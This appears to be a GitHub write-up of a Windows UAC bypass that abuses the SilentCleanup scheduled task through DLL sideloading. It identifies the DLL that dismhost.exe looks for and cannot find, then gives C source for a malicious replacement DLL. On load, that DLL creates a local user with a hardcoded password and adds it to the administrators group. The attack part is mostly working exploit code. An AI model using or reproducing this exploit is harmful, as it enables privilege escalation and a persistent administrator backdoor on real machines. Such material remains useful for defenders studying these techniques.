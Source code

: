 ***UAC Bypass Technique #3 - DLL Sideloading<br>(UAC setting - ALWAYS ON)***
-

> ***  REMINDER: This is now deprected as far as Windows 11 >22h2 is concerned as of sometime in early 2025 ***

This one isn't too challenging to pull off, though it proved difficult locating a consistent DLL in use across all Windows 11 versions (home/pro/education/enterprise). I'm talking about the ever famous scheduled task, `SilentCleanup`, which of course runs: `cleanmgr.exe / dismhost.exe`. This scheduled task has been abused time and time again over the years, and somehow it still prevails as a tried and true vector for UAC bypass / privilege escalation to this day.
![image](https://github.com/user-attachments/assets/59d2143f-492c-4454-a041-c450dcac815a)

If we go ahead and run this scheduled task, we'll see we have a stray DLL from `dismhost.exe` desperately looking to be intercepted via a DLL Sideloading attack 🤯  That stray DLL is called: `api-ms-win-core-kernel32-legacy-l1.dll`

![image](https://github.com/user-attachments/assets/92ebb2ad-fec3-480c-8ed0-57667c54a477)

Let's fire up Visual Studio and write some code to load our own custom dll. I went a bit overboard and made sure, if at all possible, to prevent the DLL from getting load locked.
You'll see I add a new user, mocker, and join them to the administrators group.  I also write a text file to the c:\ directory for added confirmation of our new privileges.

```c
#include "pch.h"
#include <windows.h>

#pragma comment (lib, "user32.lib")

DWORD WINAPI MyThread(LPVOID lpParam)
{
    WinExec("cmd.exe /c net user mocker M0ck3d2024 /add && net localgroup administrators mocker /add", 0);
    WinExec("cmd.exe /c echo hey > c:\\heythere.txt", 0);
    return 0;
}


DWORD WINAPI WorkItem(LPVOID lpParam)
{
    MyThread(NULL);
    return 0;
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        DisableThreadLibraryCalls(hinstDLL);  // Avoid unnecessary notifications

        // Use QueueUserWorkItem to safely execute code after the DLL has been loaded
        QueueUserWorkItem(WorkItem, NULL, WT_EXECUTEDEFAULT);

        // Optionally execute additional code here, e.g., WinExec command
        // WinExec("cmd.exe /c net user mocker M0ck3d2024 /add && net localgroup administrators mocker /add", 0);

        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
```